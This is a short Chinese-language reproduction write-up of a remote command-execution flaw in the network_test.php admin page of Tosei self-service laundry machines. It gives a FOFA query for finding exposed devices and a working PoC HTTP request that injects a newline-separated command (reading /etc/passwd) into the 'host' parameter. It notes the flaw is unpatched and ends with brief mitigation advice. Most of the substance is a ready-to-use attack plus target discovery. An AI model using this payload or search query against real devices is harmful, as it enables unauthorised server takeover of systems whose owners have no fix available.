 
# Tosei 自助洗衣机 network\_test.php RCE 漏洞复现

### 0x01 产品简介

Tosei 自助洗衣机 是日本 Tosei 公司的一个产品。

### 0x02 漏洞概述

Tosei 自助洗衣机 web 管理端存在[安全漏洞](https://so.csdn.net/so/search?q=%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，攻击者利用该漏洞可以通过 network\_test.php 的命令执行，在服务器任意执行代码，获取服务器权限，进而控制整个服务器。

### 0x03 复现环境

FOFA：body="tosei\_login\_check.php"

![](assets/1703152960-c28c94df6797bfb2886286011b2740fb.png)

### 0x04 漏洞复现

PoC

```http
POST /cgi-bin/network_test.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

host=%0acat${IFS}/etc/passwd%0a&command=ping
```

### ![](assets/1703152960-1f70d1ae8a5518ff340f4f8920ef0eaf.png)0x05 修复建议

官方暂未修复该漏洞，请用户联系厂商修复漏洞：https://www.tosei-corporation.co.jp/product-coin/

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。

